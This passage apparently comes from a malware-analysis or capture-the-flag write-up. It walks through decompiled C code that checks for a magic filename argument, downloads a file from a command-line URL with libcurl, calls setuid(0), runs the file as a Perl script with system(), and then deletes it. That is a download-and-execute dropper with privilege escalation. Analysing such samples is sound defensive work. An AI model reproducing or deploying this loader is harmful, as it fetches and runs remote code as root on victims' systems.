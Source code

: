 Then it verifies that the second arg is the string “lDnxUysaQn”:

```

  res = strcmp(argv[2],"lDnxUysaQn");
  if (res != 0) {
    puts("Exiting... ");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }

```

It opens that as a file for writing:

```

  puts("Running... ");
  filehandle = fopen(argv[2],"wb");

```

Next is uses `curl` to make a web request:

```

  curl_object = curl_easy_init();
  curl_easy_setopt(curl_object,0x2712,argv[1]);
  curl_easy_setopt(curl_object,0x2711,filehandle);
  curl_easy_setopt(curl_object,0x2d,1);
  res = curl_easy_perform(curl_object);

```

First it sets the URL (0x2712) to the first argument from the command line. Then it sets the output file (0x2711) to the filehandle from the `lDnxUysaQn` file. 0x2d sets verbose to true, and then it executes the curl command.

If the `curl` is successful, it does the following:

```

  if (res == 0) {
    res = snprintf((char *)0x0,0,"%s",argv[2]);
    arg2_str = (char *)malloc((long)res + 1);
    snprintf(arg2_str,(long)res + 1,"%s",argv[2]);
    res = snprintf((char *)0x0,0,"perl ./%s",arg2_str);
    cmd_str = (char *)malloc((long)res + 1);
    snprintf(cmd_str,(long)res + 1,"perl ./%s",arg2_str);
    fclose(filehandle);
    curl_easy_cleanup(curl_object);
    setuid(0);
    system(cmd_str);
    system("rm -f ./lDnxUysaQn");
    return 0;
  }
  puts("Exiting... ");
                    /* WARNING: Subroutine does not return */
  exit(0);
}

```
